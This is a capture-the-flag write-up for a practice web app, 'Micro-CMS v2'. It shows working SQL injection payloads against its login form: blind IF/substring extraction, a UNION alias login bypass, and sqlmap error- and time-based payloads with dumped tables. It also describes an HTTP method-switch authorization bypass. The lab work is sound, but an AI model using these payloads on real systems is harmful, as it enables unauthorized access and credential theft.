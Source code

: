 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

>Traceback (most recent call last):
>  File "./main.py", line 145, in do_login
>    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
>    self.errorhandler(self, exc, value)
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
>    raise errorvalue
>ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields ```Invalid password``` error.

These error messages can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Entering Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned true, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned false. Using this query, it is deduced that the length of the password is ```7```.

Now, each character in the password can similarly be found using the ```substring()``` function: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters until character 7 (the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found.)

This ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

>Parameter: username (POST)
>    Type: error-based
>    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
>    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
>    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

>web server operating system: Linux Ubuntu
>web application technology: Nginx 1.14.0
>back-end DBMS: MySQL >= 5.0
>available databases [4]:
>[*] information_schema
>[*] level2
>[*] mysql
>[*] performance_schema
>
>Database: level2
>Table: admins
>[1 entry]
>+----+----------+----------+
>| id | username | password |
>+----+----------+----------+
>| 1  | shayna   | tanesha  |
>+----+----------+----------+
>
>Database: level2
>Table: pages
>[3 entries]
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
>| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
>| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

#### FLAG1 is captured.

All flags captured
=====
